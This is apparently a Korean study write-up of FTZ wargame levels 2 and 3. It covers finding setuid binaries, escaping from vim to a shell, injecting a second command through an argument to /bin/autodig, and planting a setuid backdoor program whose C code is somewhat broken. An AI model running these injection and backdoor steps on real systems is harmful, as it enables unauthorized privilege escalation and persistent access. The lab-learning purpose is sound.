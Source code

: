 ```yaml
---
tags: security-attack system-security ftz
toc: True
---
```

# FTZ_2
## vi(vim) 편집기의 취약점을 이용한 system 권한 공격

* id: level2
* pw: hacker is cracker

vim 명령어 사용중,  !__ 명령어 사용과 함께 쓰면 vim의 usr권한을 그대로 유지한체, 프로그램을 실행할 수 있다.
그럼으로 setuid가 level3로 설정되어있는 실행파일을 find함수를 통해 찾는다.

1. find / -perm +6000 -user level3 2> /dev/null 
2. vim 편집기 실행 후 :!bash를 통해 공격한다.
3. level3의 권한을 얻는다.

# FTZ_3
## 병령 처리 명령어를 통한 공격

이번 챕터에서는 dig와 nslookup을 예시로 명령어 병렬처리의 취약점에 대해 알려준다.
nslookup을 통해 도메인서버의 실제 주소값을 알 수 있다. 
그리고 dig @주소값 bind version을 통해 취약한 도매인 서버을 파악할 수 있다.
이때 이전과 같이 find / -perm +6000 -user level4 2> /dev/null을 통해 level4의 권한을 갖고 있는 setuid를 찾는다.
그것을 실행시켜보면 dig의 명령어와 같다는 것을 확인할 수 있다.
이것을 gdb로 리버싱을 진행해보면 cmpl와 je를 통해 arg가 2가 아닐 경우 명령어가 꺼지는 것을 확인할 수 있다. 
이제 공격 idea를 생각해보자  
bash에서 '"__"'를 같이 묵어서 명령어를 실행하면 spacebar 와 함께 명령어가 실행된다.
그리고 ';'를 통해 해당 명령어를 실행하는 것과 동시에 병렬적으로 다른 명령어를 함께 실행할 수 있다. 

* /bin/autodig "8.8.8.8; my-pass;" 

이를 통해서 /bin/autodig에서 level4의 권한을 갖고 있는 명령어가 실행될때 병렬적으로 내가 쓰고싶은 명령어를 같이 쓸 수 있다.


## 백도어 만들기
같은 아이디어로 백도어를 만들어보자,   
백도어란 저번 post에서 설명했듯이 권한이 부여가 되지 않는 상태에서 해당하는 권한으로 파일을 실행 시킬 수 있다.  

1. 파일 생성  
/bin/autodig "8.8.8.8; echo '
```
int main(){
char *cmd[2];
char *cmd[0] = "/bash/sh"
char *cmd[1] = (void *)0;
setreuid(3004,3004);
execve(cmd[0],cmd,cmd[1]);
}
```
' > /tmp/superBackdoor.c;

2. compile하기
/bin/autodig "8.8.8.8; gcc -o /tmp/superBackdoor /tmp/superBackdoor.c;"

3. 권한부여하기
/bin/autodig "8.8.8.8; chmod 6755 /tmp/superBackdoor"

이과정을 통해 level으로 접근을 해도, 바로 level4의 권한을 가질 수 있다.
execve의 명령어의 설명은 다음과 같다.
exec 까지는 excutaion의 함수이고, v는 argv를 vector(배열)로 받는 다는 의미이다. 그리고 e는 환경설정할 parameter를 받는 다는 의미이다.  
즉, 첫번째 인자에 실행할 파일을 넣고, 그 인자를 cmd의 상태로 실행한 뒤, 환경변수는 cmd[1]의 형태를 갖는다는 의미이다. 
